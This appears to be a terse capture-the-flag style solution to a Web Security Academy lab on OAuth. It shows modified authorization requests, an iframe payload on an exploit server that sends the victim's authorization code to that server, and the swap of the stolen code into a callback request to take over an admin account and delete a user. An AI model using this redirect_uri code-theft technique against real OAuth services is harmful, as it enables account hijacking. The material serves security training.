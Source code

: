 ```bash
GET /auth?client_id=jy9hhtqudaod0tcrrziu6&redirect_uri=https://test123.com/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/1.1

To

GET /auth?client_id=jy9hhtqudaod0tcrrziu6&redirect_uri=https://exploit-ac8d1f0e1fb2eb19c04c052801460027.web-security-academy.net/exploit/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/1.1

Go to: HTTP history
Find:

GET /auth?client_id=jy9hhtqudaod0tcrrziu6&redirect_uri=https://ac621ff31f1feb34c0930504008e00fe.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/1.1

Right-click response -> Copy URL
Go to: "Go to exploit server"
Body:

https://oauth-acc81f581fc8ebdfc00a05f2024100ad.web-security-academy.net/auth?client_id=jy9hhtqudaod0tcrrziu6&redirect_uri=https://exploit-ac8d1f0e1fb2eb19c04c052801460027.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email

To

<iframe src='https://oauth-acc81f581fc8ebdfc00a05f2024100ad.web-security-academy.net/auth?client_id=jy9hhtqudaod0tcrrziu6&redirect_uri=https://exploit-ac8d1f0e1fb2eb19c04c052801460027.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email'></iframe>

Store
Deliver exploit to victim
Go to: "Access log"
Find:

/oauth-callback?code=lfC5ruiCFQwiUvrgHTdmbxwBW3wCbPuFGK9Bx1LG0GL

Copy:

lfC5ruiCFQwiUvrgHTdmbxwBW3wCbPuFGK9Bx1LG0GL

Go to:

https://ac621ff31f1feb34c0930504008e00fe.web-security-academy.net/

Go to: "My account"
Log out
Intercept is on
Go to: "My account"
Forward requests until:

GET /oauth-callback?code=YF9twM0tVtbjgCbE0xdRqlPSDgC26WEM00Us9jlYx8l HTTP/1.1

Change:

GET /oauth-callback?code=YF9twM0tVtbjgCbE0xdRqlPSDgC26WEM00Us9jlYx8l HTTP/1.1

To

GET /oauth-callback?code=lfC5ruiCFQwiUvrgHTdmbxwBW3wCbPuFGK9Bx1LG0GL HTTP/1.1

Go to: "Admin panel"
Delete the username "carlos"

```